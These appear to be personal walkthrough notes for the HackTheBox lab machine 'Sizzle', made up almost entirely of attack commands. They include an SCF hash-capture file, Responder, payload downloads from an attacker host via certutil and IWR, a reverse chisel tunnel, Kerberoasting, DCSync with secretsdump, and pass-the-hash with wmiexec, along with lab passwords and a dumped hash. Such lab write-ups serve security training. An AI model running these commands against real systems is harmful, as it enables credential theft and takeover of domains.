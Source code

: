### No empty lines
https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html#smb---tcp-445

```bash
cat * | xxd | grep -v "0000 0000 0000 0000 0000 0000 0000 0000"
```

### Cacls on mount
```bash
smbcacls -N '//10.129.230.198/Department Shares' Users

# mount it
sudo mount -t cifs //10.129.230.198/Department\ Shares /mnt

for i in $(ls); do echo $i; smbcacls -N '//10.129.230.198/Department Shares' $i; done
```

```bash
❯ smbcacls -N '//10.129.230.198/Department Shares' Users/Public
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL # <--- write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or shells
```

### SMB Share – SCF File Attacks
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

```text
[Shell]
Command=2
IconFile=\\10.10.17.120\alvin.ico
[Taskbar]
Command=ToggleDesktop
```

```bash
sudo responder -I tun0 -v
```

Grab the hash and crack it to get credentials

### /certsrv/ (Status: 401)
```bash
gobuster -k -u https://10.10.10.103 -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -t 20 -s 200,204,301,302,307,403,401
```

AMANDA:Ashare1972

### Sign CSR for winrm
##### One way..
```bash
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```
##### ..or the other
https://github.com/A1vinSmith/OSCP-PWK/wiki/Crack-Hash
```bash
openssl genrsa -aes256 -out enox.key 2048
openssl req -new -key enox.key -out enox.csr

evil-winrm -i 10.129.230.198 -S -c enox.cer -k enox.key
```

### Blocked
`certutil -urlcache -f http://10.10.16.9/chisel chisel`

### Bypass AppBlocker
```bash
IWR http://10.10.16.9/chisel -OutFile chisel.exe
chisel server -p 8008 --reverse
.\chisel.exe client 10.10.16.9:8008 R:88:127.0.0.1:88 R:389:localhost:389
```

### Kerberoasting
https://github.com/A1vinSmith/OSCP-PWK/blob/master/HackTheBox/Windows/Active.md

##### domain not right
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py htb/amanda:Ashare1972 -request -dc-ip 10.129.230.198
```

##### htb.local
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py htb.local/amanda:Ashare1972 -request -dc-ip 10.129.230.198
```
##### Sign csr for mrlky again
Football#7
```bash
openssl req -newkey rsa:2048 -nodes -keyout mrlky.key -out mrlky.csr
```
user.txt get

### Root
```bash
❯ impacket-secretsdump -just-dc mrlky:Football#7@10.129.230.198

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
```

##### check that hash using crackmapexec
`crackmapexec 10.129.230.198 -u administrator -H f6b7160bfc91823792e0ac3a162c9267`

##### done
```bash
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 Administrator@10.129.230.198
```